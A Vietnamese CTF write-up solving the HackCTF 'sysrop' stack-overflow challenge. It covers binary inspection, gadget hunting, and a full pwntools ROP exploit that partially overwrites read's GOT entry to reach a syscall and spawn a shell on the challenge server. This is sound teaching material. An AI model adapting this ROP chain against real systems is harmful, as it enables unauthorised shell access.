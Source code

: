 # Challenge
Khảo sát challenge này trên linux
```sh
zir@HAZIR:~/HackCTF$ file sysrop
sysrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=194fc93a0eb283750cbd161d675faaeb4443ca90, stripped
```
File này dynamically linked, 64-bit, stripped.

Xem pseudo code của chương trình, dùng IDA 7.5
```sh
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  read(0, buf, 0x78uLL);
  return 0LL;
}
```
Chương trình sẽ chỉ có 1 hàm là read().

Dùng gdb-pwndbg để checksec file binary
```sh
pwndbg> checksec
[*] '/home/zir/HackCTF/sysrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
No PIE, No Canary sẽ rất có ít cho challenge này.

```sh
pwndbg> disass read
Dump of assembler code for function read:
   0x00000000000f7250 <+0>:	cmp    DWORD PTR [rip+0x2d24e9],0x0        # 0x3c9740
   0x00000000000f7257 <+7>:	jne    0xf7269 <read+25>
   0x00000000000f7259 <+9>:	mov    eax,0x0
   0x00000000000f725e <+14>:	syscall 
   0x00000000000f7260 <+16>:	cmp    rax,0xfffffffffffff001
   0x00000000000f7266 <+22>:	jae    0xf7299 <read+73>

```

Trong hàm read có dùng 1 lệnh syscall, mình sẽ dùng lệnh syscal này với tham số truyền vào phù hợp để spawnshell.

Chúng ta sẽ cần tìm 1 số gadget.
```py
zir@HAZIR:~/HackCTF$ ROPgadget --binary sysrop | grep "pop"
0x000000000040054c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000040054e : add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005e9 : in eax, 0x58 ; pop rdx ; pop rdi ; pop rsi ; ret
0x000000000040053d : je 0x400550 ; pop rbp ; mov edi, 0x601040 ; jmp rax
0x000000000040058b : je 0x400598 ; pop rbp ; mov edi, 0x601040 ; jmp rax
0x00000000004005e8 : mov ebp, esp ; pop rax ; pop rdx ; pop rdi ; pop rsi ; ret
0x00000000004005e7 : mov rbp, rsp ; pop rax ; pop rdx ; pop rdi ; pop rsi ; ret
0x00000000004005ef : nop ; pop rbp ; ret
0x0000000000400548 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x0000000000400595 : nop dword ptr [rax] ; pop rbp ; ret
0x00000000004006bc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006be : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006c0 : pop r14 ; pop r15 ; ret
0x00000000004006c2 : pop r15 ; ret
'0x00000000004005ea : pop rax ; pop rdx ; pop rdi ; pop rsi ; ret'
0x00000000004005e0 : pop rbp ; jmp 0x400560
0x00000000004005b2 : pop rbp ; mov byte ptr [rip + 0x200a9e], 1 ; ret
0x000000000040053f : pop rbp ; mov edi, 0x601040 ; jmp rax
0x00000000004006bb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006bf : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400550 : pop rbp ; ret
0x00000000004005ec : pop rdi ; pop rsi ; ret
0x00000000004006c3 : pop rdi ; ret
0x0000000000400291 : pop rdi ; stosb byte ptr [rdi], al ; jmp 0x4002d9
'0x00000000004005eb : pop rdx ; pop rdi ; pop rsi ; ret'
0x00000000004006c1 : pop rsi ; pop r15 ; ret
0x00000000004005ed : pop rsi ; ret

```
2 gadget này sẽ giúp mình truyền các tham số cần để spawnshell.

Với syscall để gọi shell thì:
* rax = 59 (0x3b)
* rdi = addr_binsh
* rsi = 0
* rdx = 0

# Exploit 
Code exploit bên dưới có sử dụng sleep(0.1) để ngăn cách các lần nhập với nhau, vì chương trình không in ra 1 đoạn text này sau khi nhập trong hàm main, nên mình dùng sleep() ngăn không cho các string nối với nhau khi debug bằng gdb hoặc khi chạy file exploit.

```py
from pwn import *
#s = process("./sysrop")
s = remote("ctf.j0n9hyun.xyz", 3024)
pause()

bss_addr = 0x601100
pop_rdx_rdi_rsi_ret = 0x00000000004005eb
pop_rax_rdx_rdi_rsi_ret = 0x00000000004005ea
read_plt = 0x4004b0
read_got = 0x601018
binsh = "/bin/sh\x00"
main = 0x0000000004005F2

syscal_offset = '\x4f' #so voi read local
syscal_offset = '\x5e' #so voi read server

# Read "/bin/sh" --> bss segment
payload = ''
payload += "a"*0x18
payload += p64(pop_rdx_rdi_rsi_ret)
payload += p64(len(binsh))
payload += p64(0)
payload += p64(bss_addr)
payload += p64(read_plt)
payload += p64(main)

# Convert Read --> syscall 
payload1 = ''
payload1 += "a"*0x18 
payload1 += p64(pop_rdx_rdi_rsi_ret)
payload1 += p64(1)
payload1 += p64(0)
payload1 += p64(read_got)
payload1 += p64(read_plt)

# SpawnShell
payload1 += p64(pop_rax_rdx_rdi_rsi_ret)
payload1 += p64(59)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(0)
payload1 += p64(read_plt)

s.sendline(payload)
sleep(0.1)
s.send('/bin/sh')
sleep(0.1)
s.sendline(payload1)
sleep(0.1)
s.sendline(syscal_offset)


s.interactive()
```
